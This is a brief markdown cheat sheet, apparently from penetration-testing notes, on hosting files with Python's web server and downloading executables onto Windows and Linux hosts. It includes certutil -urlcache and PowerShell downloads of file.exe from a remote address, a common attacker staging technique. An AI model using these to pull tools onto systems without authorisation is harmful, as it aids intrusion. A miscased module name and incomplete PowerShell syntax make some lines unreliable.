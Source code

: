 # Hosting
- Python Web Server
	- `python -m SimpleHTTPServer 80` : python2 module
	- `python3 -m HTTP.server 80` : python3

# Downloading
- Windows
	- `certutil -urlcache -f http://host/file.exe file.exe`
	- powershell
		- `wget -usebasicparsing http://192.168.0.26/file.exe file.exe`
- Linux
	- `curl`
	- `wget `


